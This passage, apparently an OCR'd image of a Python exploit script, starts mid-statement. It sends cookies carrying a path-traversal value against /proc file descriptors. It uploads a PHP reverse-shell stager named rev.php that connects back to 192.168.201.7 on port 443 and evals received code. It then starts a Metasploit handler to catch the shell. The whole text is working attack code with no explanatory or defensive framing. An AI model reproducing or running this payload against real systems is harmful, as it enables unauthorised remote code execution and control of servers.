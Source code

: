 ```python
        v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", \
        "Accept-Language": "en-GB,en-US;q=0.9,en;q=0.8", \
        "Cookie": "PHPSESSID="+PHPSESSID+"; user=../../../../../proc/6642/fd/9%00", "Connection": "close"}

for i in range (10):
   requests.get(burp0_url, headers=burp0_headers)

fields = {
    'userfile': ('rev.php', "/*<?php /**/ error_reporting(0); $ip = '192.168.201.7'; $port = 443; \
        if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f(\"tcp://{$ip}:{$port}\"); $s_type = 'stream'; } \
        if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } \
        if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM,SOL_TCP); \
            $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } \
             if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } \
             switch ($s_type) { case 'stream': $len = fread($s, 4); \
                break; case 'socket': $len = socket_read($s, 4); break; } \
                if (!$len) { die(); } $a = unpack(\"Nlen\", $len); $len = $a['len']; $b = ''; \
                while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); \
                break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } \
                 $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; \
                 if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) \
                 { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();", \
                 "text/php"),'file_id': "0"
}

boundary = '----WebKitFormBoundary' \
           + ''.join(random.sample(string.ascii_letters + string.digits, 16))
m = MultipartEncoder(fields=fields, boundary=boundary)

headers = {
    "Connection": "keep-alive",
    "Content-Type": m.content_type
}

s = requests.Session()
files = {'userfile': open('rev.php', 'rb')}


req = s.post("http://"+target+"/data/yolo.php", headers=headers, data=m)

os.system('msfconsole -q -x "use exploit/multi/handler; set lhost 192.168.201.7; set lport 443; exploit -z -j;"')
```


